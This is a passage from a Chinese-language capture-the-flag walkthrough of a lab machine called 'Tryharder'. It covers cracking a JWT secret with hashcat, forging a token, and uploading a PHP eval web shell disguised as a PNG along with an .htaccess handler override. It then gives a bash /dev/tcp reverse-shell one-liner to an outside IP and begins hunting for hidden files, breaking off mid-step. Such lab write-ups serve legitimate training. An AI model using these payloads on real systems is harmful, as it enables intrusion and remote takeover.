 

登录后发现是 JWT 身份验证，抓取 token 后尝试使用 hashcat 破解：


```bash
hashcat -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt
```

```text
候选密钥：jwtsecret123
```

<img width="1919" height="616" alt="Image" src="https://github.com/user-attachments/assets/2b10dfd8-cd8e-401f-94b6-534779f627ec" />

<img width="1915" height="608" alt="Image" src="https://github.com/user-attachments/assets/9709ab51-e289-43e3-86c9-b35abafe7c5d" />

忘截图了，上面token中的sub是上传目录把123改成999，不然可能上传不成功
使用伪造 token 后页面出现上传功能，上传如下两个文件：

**shell.png**

```php
<?php @eval($_POST['cmd']); ?>
```

**.htaccess**

```apache
<IfModule mime_module>
	AddHandler php5-script .png
	SetHandler application/x-httpd-php
</IfModule>
```

访问 payload 后执行：

<img width="917" height="111" alt="Image" src="https://github.com/user-attachments/assets/86155986-3b43-4b84-abfa-48ab9d8936e5" />

```php
cmd=system("/usr/bin/bash -c '/usr/bin/bash -i >&/dev/tcp/192.168.218.148/1234 0>&1'");
```

<img width="924" height="221" alt="Image" src="https://github.com/user-attachments/assets/63182291-07e6-4fc7-84e8-416ef9c24fe1" />

## 权限提升分析

在 pentester 用户主目录中找到 `.note` 文件，结合 `/etc/passwd` 中的信息
但是我是想了很久也不知道这在提示什么，还是GPT好使，GPT告诉我可能与加密，隐写，凯撒密码这些有关，然后我开始对照这些语句的原文开始猜测，然后又浪费了很多时间，也没解出来，最后看了佬的wp，原来是找隐藏文件

```bash
find / -name '.*' 2>/dev/null | grep -v sys
```
先看/srv
```bash
www-data@Tryharder:/srv$ cat ...
Iuwbtthfbetuoftimfs"iuwbsuhfxpsttoguinet@jtwbttieahfogwiseon#iuxatthfageofgpoljthoess%itwbsuiffqocipfbemieg-iuxbsuhffqpdhogjocredvljtz,'iuwasuhesfasooofLjgiu../
```
看着跟passwd中的提示很像，可能是移位密码
再看看secret中的提示
```bash
www-data@Tryharder:/var/backups/.secret/.verysecret/.noooooo$ cat note2.txt 
```

